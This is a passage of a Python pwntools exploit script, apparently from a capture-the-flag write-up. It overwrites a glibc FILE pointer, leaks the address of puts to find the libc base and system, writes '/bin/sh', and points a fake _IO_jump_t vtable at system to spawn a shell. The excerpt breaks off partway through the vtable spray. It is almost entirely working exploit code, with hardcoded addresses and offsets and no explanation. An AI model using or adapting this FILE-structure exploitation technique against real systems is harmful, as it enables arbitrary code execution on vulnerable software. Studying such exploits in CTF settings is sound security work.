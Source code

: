 ```python
# Step 2: leak, overwrite File Pointer

PUTS_GOT = 0x00601f80

payload  = ''
payload += p64(0)
payload += p64(0)
payload += p64(int(bins[0], 16))
payload += p64(PUTS_GOT)   # reloc.puts
payload += p64(int(bins[1], 16))
payload += p64(0x006020c0) # fake _IO_jump_t
payload += p64(int(bins[2], 16))
payload += p64(0x006021c0) # faile
payload += p64(int(bins[3], 16))
payload += p64(0x00602050) # (void*) faile
payload += p64(int(bins[4], 16))
payload += p64(0x00602060) # &_IO_jump_t
edit(bins[0], payload)

libc_puts = _print(bins[0])
libc_puts = u64(libc_puts.ljust(8, '\x00'))
libc_base = libc_puts - 0x6f690
system  = libc_base + 0x45390

log.info('LIBC_LEAK ' + hex(libc_puts))
log.info('LIBC_BASE ' + hex(libc_base))
log.info('SYSTEM    ' + hex(system))

faile = _print(bins[2])
faile = u64(faile.ljust(8, '\x00'))

log.info('FAILE ' + hex(faile))

payload  = ''
payload += p64(int(bins[3], 16))
payload += p64(faile)
edit(bins[3], payload)

payload  = '/bin/sh'
edit(bins[3], payload)

payload  = ''
payload += p64(int(bins[4], 16))
payload += p64(faile + 0xd8)
edit(bins[4], payload)

_io_jump_t = _print(bins[4])
_io_jump_t = u64(_io_jump_t.ljust(8, '\x00'))

log.info('_IO_jump  ' + hex(_io_jump_t))

payload = p64(0x006020c0)
edit(bins[4], payload) # _IO_jump_t -> fake _IO_jump_t

# spray
payload  = ''
payload += p64(0) # size_t_dummy
payload += p64(0) # size_t_dummy2
payload += p64(0x401297) # _IO_finish_t
payload += p64(system) # _IO_overflow_t
payload += p64(system) # _IO_underflow_t
payload += p64(system) # _IO_underflow_t
payload += p64(system) # _IO_pbackfail_t
```